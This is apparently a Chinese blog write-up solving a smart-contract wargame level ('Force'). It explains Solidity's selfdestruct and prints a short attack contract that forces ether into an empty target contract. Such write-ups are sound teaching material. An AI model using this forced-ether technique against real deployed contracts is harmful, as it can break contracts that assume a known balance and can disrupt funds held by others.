

第一个三星题。

这个合约啥也没有，目标是让合约的balance超过0。

<!--more-->

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```


这个题需要有额外知识：

selfdestruct 是 Solidity 中的一个操作符，用于销毁合约并将其剩余的以太币转移到指定地址。调用该操作后，合约的代码和状态被从区块链中删除，合约余额会发送到指定的地址，释放存储空间。

```solidity
selfdestruct(address payable recipient);
```


所以写一个智能合约：

```solidity
contract AttackForce {
    function attack(address payable target) public payable {
        selfdestruct(target);
    }

    receive() external payable {}
}
```

先给他转钱，然后销毁他把钱强行扔给Force合约。

